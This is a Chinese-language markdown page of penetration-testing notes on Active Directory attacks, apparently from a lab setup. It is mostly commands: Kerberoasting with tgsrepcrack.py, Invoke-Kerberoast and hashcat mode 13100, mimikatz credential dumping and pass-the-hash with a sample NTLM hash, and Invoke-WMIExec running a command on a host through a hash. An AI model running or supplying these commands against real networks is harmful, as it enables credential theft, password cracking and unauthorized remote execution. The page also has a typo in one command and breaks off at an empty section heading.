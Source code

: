 - 使用kerberoast 工具集中的 tgsrepcrack.py 工具进行离线爆破
`python tgsrepcrack.py list1.txt 2-40a00000-jack@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi`
![](https://ae01.alicdn.com/kf/HTB16NnDdUWF3KVjSZPhq6xclXXaU.jpg)

## kerberoating新姿势

>工具 Invoke-Kerberoast.ps1 HashCat

- 转为Hashcat格式
`Invoke-kerberoast –outputformat hashcat | fl`
![](https://ae01.alicdn.com/kf/HTB13mzYdUGF3KVjSZFoq6zmpFXaB.jpg)
- 保存 
`nvoke-Kerberoast -Outputformat Hashcat | fl > test1.txt`

- Hashcat爆破
`hashcat64.exe –m 13100 test1.txt password.list --force
`![](https://ae01.alicdn.com/kf/HTB19sMbdG5s3KVjSZFNq6AD3FXa9.jpg)

# Pth
## Pass the hash
- 使用mimikatz先获取hash

```
privilege::debug
```
```
sekurlsa::logonpasswords
```
![](https://ae01.alicdn.com/kf/H5b1de26684c14fac9a0301ee533e168d3.jpg)

- 攻击机执行

```
mimikatz "privilege::debug" "sekurlsa::pth /user:Administrator /domain:SRV-DB-0DAY /ntlm:ac307fdeab3e8307c3892c163a7808d5"
```

![](https://pic1.superbed.cn/item/5d4b9eb3451253d178f061a6.jpg)

- 验证pth

![](https://pic3.superbed.cn/item/5d4b9f15451253d178f07075.jpg)

## wmiexec

- Invoke-SMBExec

```
https://github.com/Kevin-Robertson/Invoke-TheHash

Invoke-WMIExec -Target 192.168.3.21 -Domain workgroup -Username administrator -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
```
- Invoke-SMBExec
